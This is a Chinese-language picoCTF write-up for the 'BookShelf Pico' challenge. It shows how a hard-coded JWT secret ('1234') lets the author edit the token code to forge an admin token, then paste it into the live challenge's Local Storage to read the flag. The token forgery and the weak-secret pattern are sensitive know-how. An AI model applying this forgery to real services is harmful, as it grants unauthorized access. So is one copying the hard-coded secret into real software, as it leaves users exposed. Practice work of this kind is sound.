## 简单读个题

有一个在线电子书阅读网站“BookShelf Pico”，内部存有几本书，我们所需要做的，是打开仅为“Admin”权限用户的专属图书“Flag”。

首先下载项目源代码：



根据Hint 3的提示，我们先看README里说了些什么（在本地尝试把其他开源代码跑起来第一步亦是如此）



从上面这一段我们可以知道如何去打包整个项目，生成jar包，并运行它


## 先来试试水

为了方便在本地进行调试，我们首先把代码打包一次（./gradlew build）

P.S. 需要注意的是，首次打包gradle会先下载这个项目所需要的依赖库，需要花一点时间，耐心等待一下~

```bash
C:\Users\TANHUA\Desktop\pico\bookshelf-pico>.\gradlew build

***以下省略一堆依赖下载过程的输出***

> Task :test
2023-03-16 18:12:02.691  INFO 30480 --- [extShutdownHook] j.LocalContainerEntityManagerFactoryBean : Closing JPA EntityManagerFactory for persistence unit 'default'
2023-03-16 18:12:02.694  INFO 30480 --- [extShutdownHook] o.s.s.concurrent.ThreadPoolTaskExecutor  : Shutting down ExecutorService 'applicationTaskExecutor'
2023-03-16 18:12:02.696  INFO 30480 --- [extShutdownHook] com.zaxxer.hikari.HikariDataSource       : HikariPool-1 - Shutdown initiated...
2023-03-16 18:12:02.702  INFO 30480 --- [extShutdownHook] com.zaxxer.hikari.HikariDataSource       : HikariPool-1 - Shutdown completed.

BUILD SUCCESSFUL in 29s
6 actionable tasks: 4 executed, 2 up-to-date
```


在看到这一行以后，那证明打包已经完成了，找到jar包，在cmd里运行它（java -jar bookshelf-base-server-0.0.1-SNAPSHOT.jar）

P.S. 什么？cmd怎么跑？在文件管理器顶部的地址栏里清空之前的内容，并输入cmd然后回车，你就会看见一个黑色框框了，这就是cmd



在经过一段时间的跑码，看到这句话以后：

```bash
2023-03-16 19:02:18.545  INFO 30712 --- [           main] i.g.n.pico.configs.BookShelfConfig       : app is now ready to use!
```


你就可以在浏览器里输入localhost:8080，访问在你本地运行的bookshelf了

P.S. 为什么是8080端口呢？因为在前面跑码的过程中，命令行已经告诉你Tomcat（一个基于Java的Web服务器）运行在8080（Tomcat的默认端口）

```bash
2023-03-16 18:12:17.204  INFO 18600 --- [           main] o.apache.catalina.core.StandardService   : Starting service [Tomcat]
2023-03-16 18:12:17.204  INFO 18600 --- [           main] org.apache.catalina.core.StandardEngine  : Starting Servlet engine: [Apache Tomcat/9.0.39]
2023-03-16 18:12:17.380  INFO 18600 --- [           main] o.a.c.c.C.[Tomcat].[localhost].[/]       : Initializing Spring embedded WebApplicationContext
```




PicoCTF给我们的账号密码是user、user。使用这个账号登陆以后，你会看到一共有三本书



显然易见，仅凭我们目前现有的Free权限账号，是无法打开阅读电子书“Flag”的。因此，我们的**下一个目标**，就是把我们的现有账号提权，拿到Admin权限。


## 什么“提权”

就像上面刚刚说的那样，我们区区一个Free用户，怎么可以看Admin管理员大人们的书呢？为了区分不同的用户权限，我们就需要一套用户鉴权系统。

根据Hint 1的提示，Bookshelf这个项目用的是JWT这个开源库来进行的用户鉴权。

（关于JWT的介绍，可以看看[这里的解释](https://zhuanlan.zhihu.com/p/433674847)）

简而言之，在我们登陆的时候，网页前端会把我们输入的账号密码通过登录API接口，发送给服务器后端（也就是我们正在运行的jar包）




待服务器校验完账号密码无误后，就会把一段代表着我们当前登录账户的信息（包括用户ID，用户名，用户权限），以一段通过服务器所存储的密钥来加密的Payload字符串的形式返回给我们。



前端在收到Payload字符串后会存到浏览器的Local Storage，在之后的接口请求中，前端就会把这段Payload字符串放在请求头Header的Authorization字段内，发送至服务器后端


基于本题的情况，我们可以尝试从伪造Payload字符串动手。


## 迈开步子，向前走

JWT这套鉴权方案好是好，有个缺点，如果我们知道加密Payload用的密钥，以及Payload内的数据结构，我们就可以轻易伪造出任意账号、权限的Payload。

数据结构很简单，我们已经有项目源码了。那么提权的关键，就在于我们是否能得到在PicoCTF的线上环境内，JWT所使用的加密密钥。

那么就让我们看看JWT的加密密钥是怎么来的。在项目内的“/src/main/java/io/github/nandandesai/pico/security/JwtService.java”中，我们可以看到，加密密钥是在初始化JwtService这个服务时，从SecretGenerator这个类获取的：

```java
@Autowired
public JwtService(SecretGenerator secretGenerator){
    this.SECRET_KEY = secretGenerator.getServerSecret();
}
```


沿着这个线索往下找，我们可以在SecretGenerator类（“/src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java”）的getServerSecret方法实现中看到，程序会先尝试读取“server_secret.txt”这个文件，如果没有，则通过调用generateRandomString方法，生成一个32位的随机字符串。

```java
@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```


然而，你可能发现了，这个generateRandomString方法，压根就不随机，而是硬编码写死的“1234”。

这样一来我们就能放心了，知道密钥一定是相同的。

这时，让我们再回到JwtService这个类来，看看Payload的生成，是怎么实现的？

```java
public String createToken(Integer userId, String email, String role){
    Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

    Calendar expiration = Calendar.getInstance();
    expiration.add(Calendar.DATE, 7); //expires after 7 days

    return JWT.create()
            .withIssuer(ISSUER)
            .withIssuedAt(new Date())
            .withExpiresAt(expiration.getTime())
            .withClaim(CLAIM_KEY_USER_ID, userId)
            .withClaim(CLAIM_KEY_EMAIL, email)
            .withClaim(CLAIM_KEY_ROLE, role)
            .sign(algorithm);
}
```


createToken这个函数，在传入了userId，email，role三个参数之后，会由JWT生成一个有效期为7天的Payload。


这时，心急的你或许会尝试以下方法来获取一个admin权限的Payload：

```java
public String createToken(Integer userId, String email, String role){
    Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

    Calendar expiration = Calendar.getInstance();
    expiration.add(Calendar.DATE, 7); //expires after 7 days

    role = "Admin";
    System.out.println("!!!!!!!!! role: " + role);

    return JWT.create()
            .withIssuer(ISSUER)
            .withIssuedAt(new Date())
            .withExpiresAt(expiration.getTime())
            .withClaim(CLAIM_KEY_USER_ID, userId)
            .withClaim(CLAIM_KEY_EMAIL, email)
            .withClaim(CLAIM_KEY_ROLE, role)
            .sign(algorithm);
}
```


然而你会发现，虽然你在登录进user账户后，显示你为Admin权限。然而在你点进“Flag”这本书一探究竟时，却会得到401（Unauthorized）的返回码。


这是因为，虽然你目前已经拿到了“虚假”的Admin权限，但你的账号，在数据库里登记的依然是Free权限。唯能得到一个真正的Admin账号，我们才能看到这本“Flag”。


于是，我们又开始寻找数据库里的数据，是由谁进行初始化的呢？毕竟在我们刚下载好源代码时，项目文件夹里可没有任何数据库的文件呀。


P.S. 这个代表着数据库存放地点的文件夹是在初次运行后才出现的👆


在项目文件夹内尝试进行全局搜索，查找“"user"”这个关键词，我们可以看到，user这个账户的信息也是写死在了BookShelfConfig类中（“/src/main/java/io/github/nandandesai/pico/configs/BookShelfConfig.java”）：

```java
/*
 * Initialize admin and a user
 * */
User freeUser = new User();
freeUser.setProfilePicName("default-avatar.webp")
        .setRole(FreeRole)
        .setLastLogin(LocalDateTime.now())
        .setFullName("User")
        .setEmail("user")
        .setPassword(passwordEncoder.encode("user"));
userRepository.save(freeUser);

User admin = new User();
admin.setProfilePicName("default-avatar.webp")
        .setRole(AdminRole)
        .setLastLogin(LocalDateTime.now())
        .setFullName("Admin")
        .setEmail("admin")
        .setPassword(passwordEncoder.encode("<redacted>"));
userRepository.save(admin);

logger.info("initialized 'admin' and 'user' users.");
```


真是功夫不负有心人，只要我们能伪造下面那个admin的账号，我们就能拿到一个货真价实的admin权限账号了！

只要我们如法炮制，再次修改SecretGenerator类getServerSecret的实现，就能拿到admin账号的Payload，从而打开“Flag”这本书了：

```java
public String createToken(Integer userId, String email, String role){
    Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

    Calendar expiration = Calendar.getInstance();
    expiration.add(Calendar.DATE, 7); //expires after 7 days

    role = "Admin";
    email = "admin";
    userId = 2;//从“user”账户的userId推出的来，先是创建了user账户（id为1），后创建了admin账户（id为2）
    System.out.println("!!!!!!!!! role: " + role);

    return JWT.create()
            .withIssuer(ISSUER)
            .withIssuedAt(new Date())
            .withExpiresAt(expiration.getTime())
            .withClaim(CLAIM_KEY_USER_ID, userId)
            .withClaim(CLAIM_KEY_EMAIL, email)
            .withClaim(CLAIM_KEY_ROLE, role)
            .sign(algorithm);
}
```


在修改代码后再次打包项目jar包并运行。等待跑码结束，浏览器打开localhost:8080，登录user、user账号后（若仍保留之前的登陆状态需重新登陆），我们可以看到，已经登入admin账号并获得admin权限：






## 移花接木

看到这里，你可能又有疑问了——我们现在不是在本地环境里跑吗？这又不是PicoCTF的实例，怎么拿分呀？

答案很简单，右击当前网页并点击“审查元素”，或按下F12，打开开发人员工具，进入“应用（Application）”标签卡：



查看“存储（Storage）” -> “本地存储空间（Local Storage）”，复制或记下token-payload和auth-token的值



再在PicoCTF开启一个新的在线实例，如法炮制，将刚刚上面复制的token-payload和auth-token的值再粘贴到在线实例下的Local Storage内，刷新一下网页：



BINGO! (o゜▽゜)o☆

<center></center>